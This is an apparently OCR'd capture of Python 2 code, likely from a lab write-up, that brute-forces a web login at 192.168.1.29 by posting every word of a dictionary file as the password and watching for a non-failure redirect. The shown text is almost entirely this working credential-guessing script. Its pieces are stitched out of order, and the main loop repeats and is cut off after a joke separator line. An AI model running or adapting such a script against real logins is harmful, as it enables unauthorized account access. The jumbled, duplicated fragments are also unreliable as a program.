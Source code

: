 ```python
fd = open(sys.argv[2])
i = 0

while True:
  word = fd.readline()
  if not word:
    break

  word = word.strip()
  data["password"] = word
  i = i + 1
  if i == 500:
      print "Testing", word
      i = 0

  sess = requests.session()
  r = sess.post("http://192.168.1.29/super_secret_login_path_muhahaha/login.php", data=data, headers=hdrs, allow_redirects=False)
  if "location" in r.headers:
    # en cas d'erreur le script nous redirige avec ce parametre
    if r.headers["location"].endswith("the_user_is_a_failure=1"):
      continue

  print "No redirection or different redirection with password {0}".format(word)
  print r.headers
  print r.content
  break

fd.close()
```

This line is just a separator. *Keep calm and blame Canada*.  

```python
import requests
import sys

if len(sys.argv) < 2:
  print "Usage: python {0} <user> <dict_file>".format(sys.argv[0])
  sys.exit()

hdrs = {
    "referer": "http://192.168.1.29/super_secret_login_path_muhahaha/personnal.php",
    "content-type": "application/x-www-form-urlencoded"
    }
data = {
      "username": sys.argv[1],
      "password": "test",
      "mysubmit": "Login"
    }

fd = open(sys.argv[2])
i = 0

while True:
  word = fd.readline()
  if not word:
    break

  word = word.strip()
  data["password"] = word
  i = i + 1
  if i == 500:
      print "Testing", word
```